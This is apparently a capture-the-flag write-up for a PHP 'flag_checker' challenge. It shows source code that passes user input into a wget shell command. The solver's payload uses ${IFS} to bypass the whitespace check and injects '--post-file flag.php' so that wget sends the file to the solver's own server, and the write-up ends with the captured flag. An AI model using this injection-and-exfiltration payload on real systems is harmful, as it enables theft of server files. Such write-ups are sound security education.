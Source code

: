 ## flag_checker

A source code was provided for this challenge :
```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```
From this code we can see it's a oob comand injection , and we can also see that  the function verify only lowercase , so we can add options to our payload with ${IFS}.

First of all I set up a public aws instance and i also installed  nginx.  because the aws instances gives me a public ip , then I listened ngnix on port 80 and used this payload on the challenge : http://challs.xmas.htsp.ro:3001/?flag=${IFS}-${IFS}--post-file${IFS}flag.php${IFS}1.1.1.1(
in place of 1.1.1.1 I put the public ip of the aws instance). Let's see how this payload works.
First of all i used the $IFS variable, which is the “Internal Field Seperator” with default value ```<space><tab><newline>``` also works fine as a separator for commands , in this way the payload is a oob command injection with whitespace bypass , after i used the comand --post-file (this command is used to send the content of a file using wget) because i needed to get out to wget and send the flag.php to my aws istance.

After i went to my nginx and intercepted the traffic with  tcpflow , more specifically with this comand " tcpflow -p -c -i eth0 port 80 " and i could see the content of the flag.php

![xmas1](https://user-images.githubusercontent.com/59454895/103447731-6ac10100-4c8f-11eb-9363-1ebdd340e3ae.PNG)

Flag: X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}
